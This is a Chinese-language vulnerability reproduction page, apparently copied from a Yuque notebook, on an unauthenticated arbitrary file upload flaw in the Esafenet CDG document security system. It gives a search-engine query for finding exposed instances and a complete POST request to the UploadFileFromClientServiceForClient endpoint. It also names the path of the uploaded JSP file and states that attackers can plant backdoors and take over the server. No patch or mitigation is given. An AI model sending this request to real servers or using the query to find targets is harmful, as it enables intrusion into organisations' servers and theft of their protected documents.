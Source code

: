 # 亿赛通电子文档安全管理系统UploadFileFromClientServiceForClient任意文件上传漏洞

# 一、漏洞简介
 亿赛通电子文档安全管理系统（简称：CDG）是一款电子文档安全加密软件，该系统利用驱动层透明加密技术，通过对电子文档的加密保护，防止内部员工泄密和外部人员非法窃取企业核心重要数据资产，对电子文档进行全生命周期防护，系统具有透明加密、主动加密、智能加密等多种加密方式，用户可根据部门涉密程度的不同（如核心部门和普通部门），部署力度轻重不一的梯度式文档加密防护，实现技术、管理、审计进行有机的结合，在内部构建起立体化的整体信息防泄露体系，使得成本、效率和安全三者达到平衡，实现电子文档的数据安全。亿赛通电子文档安全管理系统UploadFileFromClientServiceForClient接口处存在任意文件上传漏洞，未经授权的攻击者可通过此漏洞上传恶意后门文件，从而获取服务器权限。

# 二、影响版本
+ 亿赛通电子文档安全管理系统

# 三、资产测绘
+ hunter`app.name="ESAFENET 亿赛通文档安全管理系统"`
+ 登录页面

![1693912211487-1ee3eb84-62a3-4c32-806a-6be32537dfb6.png](./img/ZyqQDZT3JG_934By/1693912211487-1ee3eb84-62a3-4c32-806a-6be32537dfb6-467164.png)

# 四、漏洞复现
```plain
POST /CDGServer3/UploadFileFromClientServiceForClient?AFMALANMJCEOENIBDJMKFHBANGEPKHNOFJBMIFJPFNKFOKHJNMLCOIDDJGNEIPOLOKGAFAFJHDEJPHEPLFJHDGPBNELNFIICGFNGEOEFBKCDDCGJEPIKFHJFAOOHJEPNNCLFHDAFDNCGBAEELJFFHABJPDPIEEMIBOECDMDLEPBJGBGCGLEMBDFAGOGM HTTP/1.1
Host: xxx.xxx.xxx.xxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,\*/\*;q=0.8,application/signed-exchange;v=b3;q=0.7
Connection: close
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=22C9717F219D60381079FEBCDC6F635A
Content-Length: 9

014435897
```

![1694274433318-8bf201e7-b8c9-4cc7-be8f-d29984fa0503.png](./img/ZyqQDZT3JG_934By/1694274433318-8bf201e7-b8c9-4cc7-be8f-d29984fa0503-721543.png)

上传文件位置

```plain
http://xx.xx.xx.xx/tttT.jsp
```

![1694274467839-bff7fb92-08d6-492d-92e5-ba54022d7c57.png](./img/ZyqQDZT3JG_934By/1694274467839-bff7fb92-08d6-492d-92e5-ba54022d7c57-498447.png)



> 更新: 2024-04-20 22:01:35  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/gny15irlsb3oielm>